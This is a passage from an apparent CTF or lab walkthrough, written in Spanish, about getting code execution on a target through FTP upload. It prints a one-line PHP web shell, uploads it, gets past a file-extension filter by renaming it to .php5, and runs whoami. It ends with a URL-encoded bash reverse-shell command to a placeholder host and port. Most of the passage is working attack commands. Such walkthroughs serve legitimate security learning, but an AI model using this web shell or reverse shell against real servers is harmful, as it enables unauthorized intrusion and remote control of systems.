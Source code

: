 ```php
<?php system($_GET['cmd']); ?>
```

Ahora vamos a subirlo mediante `FTP` dentro de la carpeta `www` de la siguiente forma:

```shell
put webshell.php
```

Echo esto vamos a probar a entrar a la pagina y dentro de la misma acceder al archivo directamente de esta forma:

```
URL = http://<IP>/webshell.php?cmd=whoami
```

Pero nos descargara el archivo, por lo que vamos a probar a utilizar `bypasses` de las extensiones de `PHP`.

URL = [Bypasses Extensiones](https://github.com/malware-d/template/blob/master/example_attack/Bypassing%20File%20Upload%20Restrictions.md)

<figure><img src="../../.gitbook/assets/image (361).png" alt=""><figcaption></figcaption></figure>

Vamos a probar `.php5` a ver si funciona y no nos descarga el archivo.

```shell
mv webshell.php webshell.php5
```

Ahora dentro del `FTP` vamos a pasarnos dicho archivo:

```shell
put webshell.php5
```

Ahora si probamos a meternos con el archivo subido nuevo veremos lo siguiente:

```
URL = http://<IP>/webshell.php5?cmd=whoami
```

Info:

```
www-data
```

## Escalate user www-data

Veremos que con esto funciona por lo que vamos a probar a crearnos una `reverse shell` de esta forma:

```
URL = http://<IP>/webshell.php5?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/<PORT> 0>%261"
```

